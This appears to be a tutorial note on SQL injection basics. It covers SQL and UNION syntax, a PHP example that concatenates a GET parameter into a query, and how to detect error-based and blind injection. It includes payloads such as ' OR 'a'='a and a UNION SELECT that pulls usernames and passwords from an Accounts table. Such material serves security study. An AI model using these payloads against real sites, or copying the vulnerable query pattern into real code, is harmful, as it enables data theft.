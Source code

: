 # SQLi Basics

SQL statement structure

```text
> SELECT <column list> FROM <table> WHERE <conditions>

> SELECT name, description FROM products WHERE id=9;
> SELECT 22, 'string', 0x12, 'another string';
```

UNION performs an union between two results:

```text
> <select statement> UNION <second select statement>;
```

If a table contains duplicate rows, use the DISTINCT operator to filter out duplicate entries

```text
> SELECT DISTINCT <field list> <remainder of statement>;
```

UNION statement implies DISTINCT by default.

You can perform UNION with chosen data:

```text
> SELECT Name, Description FROM Products WHERE ID='2' UNION SELECT 'Example', 'Data';
```

Example of union:

```text
> SELECT Name, Description FROM Products WHERE ID='2' UNION SELECT Username, Password FROM Accounts;
```

This query will get the name and description of the item which ID is 3 and all usernames and passwords from the Accounts table

Comments:

```text
> SELECT field FROM table; # this is a comment
> SELECT field FROM table; -- this is another comment
```

Web applications when using databases must:

1. Connect to the database
2. Submit the query to the database
3. Retrieve the results

Example of php connection to MySQL:

```text
$dbhost='1.1.1.1';
$dbuser='username';
$dbpass='password';
$dbname='database';

$connect = mysqli_connect($dbhost, $dbuser, $dbpass, $dbname);
$query = "SELECT Name, Description FROM Products WHERE ID='2' UNION SELECT Username, Password FROM Accounts;";

$results = mysqli_query($connection, $query);
display_results($results);
```

mysqli\_query\(\) is a function which submits the query to the database  
display\_results\(\) function renders the data

The query above is a static query, and most of the time this is not what you find in the real world. Generally you want to query the database based on what the client is trying to do, like searching for a product by its name or ID:

```text
$id = $_GET['id'];

<ommited db variables>

$connect = mysqli_connect($dbhost, $dbuser, $dbpass, $dbname);
$query = "SELECT Name, Description FROM Products WHERE ID='$id';";

$results = mysqli_query($connection, $query);
display_results($results);
```

In this case, you have a query which uses the GET id parameter to build a query. This means the client can manipulate the query and construct it in a way that it returns information the client is not suppose to receive. Let's say the client provide the following information as the id:

```text
' OR 'a'='a
```

the query would become:

```text
> SELECT Name, Description FROM Products WHERE ID='' OR 'a'='a';
```

Setting up two conditions:

* ID must be empty OR
* an always true condition \(A will always be equal to A\)

Since the second condition will always be fullfilled, this basically means that you can return the Name and Description from the table products whenever A = A, in another words, it will return the entier table.

Is always possible to exploit the UNION command:

```text
' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a
```

So the query becomes:

```text
> SELECT Name, Description FROM Products WHERE ID='' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a';
```

So you can get informations from tables that are not even being used, in this case, you can basically dump the entire database through an SQLi.

How critical is a SQLi?

1. Depends on the DBMS \(Mysql, SQL server, Oracle DB, etc.\)
2. Some DBMS allows you to run commands in the host machine, so you can get information for a foothold or even a foothold itself \(shell, LFI, host OS information\)

When and Where SQLi can be found?

Generally in input fields where the client can insert data \(injection points\), then manipulate the input in a way you can take control over the dynamic query.

The most common way to do that \(script kiddie shit here\) is to input characters which breaks the SQL query and see if the application returns an error, like an '

Not all inputs are used to build a query, so you need to checkout all the different input parameters and check which is used for database data retrieval.

Input parameters are carried through GET and POST requests.

Beyond trying an ', you can:

* Use " as well
* SELECT, UNION and other sql commands
* Comments, \# or --

How do I know that the I found an SQLi?

When you break the sqli using the characters above, the application may throw out an error, every DMBS responds to incorrect sql queries differently:

MS-SQL:

```text
Incorrect syntax near [query snippet]
```

MySQL:

```text
You have an error in your SQL syntax. Check the manual that corresponds /
to your MySQL server vrsion for the right syntax to use near [query snippet]
```

Finding these errors means is very likely the application is vulnerable. In the real world, most websites does not display such errors, in this case, you need to test using binary/true-false/boolean based queries.

Remember, you generally can't see the query, so you need to wrap your brain around the site and understand the input fields and how the information return relates to it so you can start building how it works.

Adding a second required condition is a way to test that, add to the query

```text
and 'a'='a
```

And see if it still works. Then try to set a second required condition which is not met, like:

```text
and 'a'='b
```

And see if it stops working

What are the types of SQLi attacks?

* In-Band SQLi
* Error-Based SQLi
* Blind SQLi

in-band SQL uses the same channel to inject and receive information, like an webapp page field.

Error-based is when you force the DBMS to output error messages and use that to perform data exfiltration, like via reports or warning e-mails

Blind SQL means the application does not reflect back the reply of you query, this means you can't see the output and needs to rely on true-false / binary conditions and requests, like 'Is the first letter of the user A? If not, waits 3 seconds before replying', and keep asking the database until you can gather enough information.

